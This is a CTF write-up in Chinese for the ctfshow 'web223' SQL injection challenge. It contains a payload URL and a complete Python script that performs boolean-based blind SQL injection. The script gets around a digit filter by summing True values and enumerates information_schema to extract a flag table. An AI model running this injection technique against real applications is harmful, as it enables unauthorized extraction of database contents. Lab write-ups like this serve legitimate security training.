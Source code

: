 ## web223~group过滤 数字

> ```
> //用户名不能是数字
> ```

与上题一样，不过是过滤了数字.那就利用 true 为 1 

payload:

```
http://b3adbf2f-6e3b-4d2c-965f-b95fe91cfeb7.chall.ctf.show/api/?u=if((true=true),username,'a')
```

脚本：

```python
# Author: yanmie

import requests

url = "http://b3adbf2f-6e3b-4d2c-965f-b95fe91cfeb7.chall.ctf.show/api/"
# payload = "if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},{}))>{},username,'a')"
# 得到 ctfshow_flagas,ctfshow_user
# payload = "if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'),{},{}))>{},username,'a')"
# 得到 id,flagasabc,info
payload = "if(ascii(substr((select group_concat(flagasabc) from ctfshow_flagas),{},{}))>{},username,'a')"
# 得到 flag
result = ""
i = 0

def createNum(num):
    if num==1:
        return True
    else:
        res = "True"
        for i in range(num-1):
            res += "+True"
        return res

while True:
    i += 1
    head = 0
    tail = 127
    while head<tail:
        mid = (head+tail)//2
        params = {
            "u" : payload.format(createNum(i),createNum(1),createNum(mid)),
        }
        response = requests.get(url=url,params=params)
        if "passwordAUTO" in response.text:
            head = mid+1
        else:
            tail = mid
    if head == 0 :
        print("[+]the result is : ",result)
        break
    result += chr(head)
    print(result)
```
